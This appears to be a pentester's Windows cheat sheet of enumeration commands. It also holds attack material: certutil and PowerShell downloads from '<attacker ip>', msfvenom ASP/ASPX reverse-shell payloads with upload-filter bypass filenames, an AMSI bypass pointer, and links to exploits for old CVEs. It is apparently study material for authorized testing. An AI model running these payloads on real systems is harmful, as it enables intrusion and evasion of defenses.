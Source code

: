 OS architecture 

- powershell

```powershell
# https://docs.microsoft.com/en-us/dotnet/api/system.environment.is64bitoperatingsystem?view=net-6.0
[System.Environment]::Is64BitOperatingSystem
# without .Net
(gwmi Win32_OperatingSystem).OSArchitecture -eq '64-bit'
```

- cmd

```cmd
(wmic os get osarchitecture)
```

AppData's Temp folder (%TEMP%)

```cmd
C:\Users\<User Account>\AppData\Local\Temp
C:\Windows\Temp
```

[displays file ownership information](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/dir)

```cmd
dir /q /a
```

privileges information

```cmd
whoami /priv
whoami /all
whoami /groups
```

check network connections 

```cmd
netstat -ano | findstr LISTEN
```

file transfer

```cmd
# on target 
certutil -urlcache -split -f "http://<attacker ip>/<file>" "C:\Users\<User Account>\Desktop\<file>"
PowerShell -c "(new-object System.Net.WebClient).DownloadFile('http://<attacker ip>/<file>', '<file>')"
Powershell Invoke-WebRequest -OutFile C:\Users\<User Account>\Desktop\<file> -Uri http://<attacker ip>/<file>
```

checking if Windows Defender is active

```powershell
get-item 'hklm:\SOFTWARE\Microsoft\Windows Defender\Real-Time Protection\'
```

ASP & ASPX reverse shell

```shell
# ASP
msfvenom -p windows/shell_reverse_tcp LHOST=<attacker ip> LPORT=<attacker port> -f asp -o rev.asp
# ASPX
msfvenom -p windows/shell_reverse_tcp LHOST=<attacker ip> LPORT=<attacker port> -f aspx -o rev.aspx
# file upload bypass
#   try filename "rev.aspx..... .. . . ."
#   try filename "rev.aspx.png"
#   try web.config (File_Upload_Bypass.md)
```

get all drives

```powershell
# powershell
gdr -PSProvider 'FileSystem'
```

```cmd
REM cmd
wmic logicaldisk get deviceid, volumename, description
```

SMB

```shell
nmap -p 445 --script vuln <target ip>
```

Kali provides [Windows executables](https://www.kali.org/tools/windows-binaries/)

```shell
# /usr/share/windows-resources/binaries
find / -name whoami.exe 2>/dev/null
windows-binaries -h
```

UNZIP

```cmd
REM Windows 10 build 17063 or later
tar -xf <zip file>
```

Bypass AMSI Powershell (PEN-300)

https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell

```
1. one liners to multiple lines
2. hex encoding
```

list firewall rules

```cmd
Netsh advfirewall firewall show rule dir=in name=all
```

Windows Updates

```cmd
wmic qfe
```

```powershell
Get-HotFix
```

Installed Programs

```cmd
wmic product get name, version, installlocation
```

copy file from net share folder

```powershell
Copy-Item -path "\\<target ip or hostname>\<folder($)>" -destination .\ -Recurse
```

check running services

```
Get-Service | where {$_.Status -eq "Running"}
```

[registry query](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/reg)

```cmd
reg query HKEY_LOCAL_MACHINE\Software /f Python
```

[Tasklist](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/tasklist)

```
tasklist /v
```

#### Old Vulnerability

MS08_067 [tool 1](https://github.com/andyacer/ms08_067) [tool 2](https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py)

```shell
# check os version
nmap -p <target ports> --script /usr/share/nmap/scripts/smb-os-discovery <target ip>
```

CVE-2019-0708

```
https://github.com/robertdavidgraham/rdpscan
```

CVE-2017-7269

Microsoft Windows Server 2003 IIS 6.0 WebDAV

```
https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269
```

CVE-2014-6271

```
https://github.com/3mrgnc3/pentest_old/blob/master/postfix-shellshock-nc.py
```

#### Resources

```
https://ss64.com/
```